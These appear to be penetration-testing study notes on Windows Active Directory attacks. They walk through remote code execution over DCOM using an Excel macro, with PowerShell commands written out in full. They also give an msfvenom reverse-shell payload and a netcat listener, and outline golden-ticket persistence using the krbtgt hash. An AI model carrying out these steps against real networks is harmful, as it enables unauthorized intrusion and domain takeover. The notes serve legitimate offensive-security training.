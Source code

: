 ## Distributed Component Object Model
Microsoft COM is a system for creating SW components that interact w/ eachother.  #DCOM is the extension for interaction between multiple computers over a network.  Interaction w/ DCOM is performed over *RPC* on #tcp/135 and requires local admin access to call the DCOM Service Control Manager.
- best leveraged against workstations as it requires microsoft office.

1. Discover the available methods or sub-objects for the #DCOM object w/ PS. Create the  instance using the *CreateInstance* method of the *System.Activator* class and discover its available methods and objects w/ *Get-Member* cmdlet.
	`$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","192.168.1.110"))`
	`$com | Get-Member`
2. In this example, we're using excel to launch a VBA macro that launches **notepad.exe** ![[Pasted image 20221107115631.png]]
3. Copy the excel file to the remote computer - in this script you can use the *Copy* method of the .NET *System.IO.File* class, specifying the source file, destination file, and an overwrite flag.
	`$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"`
	`$RemotePath = "\\192.168.1.110\c$\myexcel.xls"`
	`[System.IO.File]::Copy($LocalPath, $RemotePath, $True)`
4. Call the *Open* method of the *Workbooks* object using the *$com* COM handle
	`$Workbook = $com.Workbooks.Open("C:\myexcel.xls")`
	1. This will result in an error b/c *Excel.Application* instantiated through DCOM is done with the SYSTEM account, which does not have a profile. By creating a Desktop directory at **``C:\Windows\SysWOW64\config\systemprofile\Desktop"``**
	`$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"`
	`$temp = [system.io.directory]::createDirector($Path)`
	Nw you can put it all together and call teh run method : 
	`$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","192.168.1.110"))`
	`$com | Get-Member`
	`$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"`
	`$RemotePath = "\\192.168.1.110\c$\myexcel.xls"`
	`[System.IO.File]::Copy($LocalPath, $RemotePath, $True)`
	`$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"`
	`$temp = [system.io.directory]::createDirector($Path)`
	`$Workbook = $com.Workbooks.Open("C:\myexcel.xls")`
	`$com.Run("mymacro")`
4. This could should open notepad.exe in a high-integrity context ![[Pasted image 20221107134027.png]]
5. To run a #reverseShell, use the msfvenom payload for an #HTA attack developed earlier on : 
	**msfvenom -p windows/shel_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta** 
	Then extract the code part of the file to add to the macro : ![[Pasted image 20221107134632.png]]![[Pasted image 20221107134702.png]] 
6. Start a nc listener, then execute the #macro !

# AD Persistence

## #goldenTickets
If we are able to get our hands on the #krbtgt password hash, we could create our own self-made custom TGTs, or *golden tickets* 
The #goldenTicket command requires a username - that can be fake (**/user**), domain name (**/domain**), the domain SID (**/sid**), and the pw hash of the krbtgt (**/krbtgt**).  Use the **/ptt** flag to direct the golden ticket directly into memory. ![[Pasted image 20221107135638.png]]
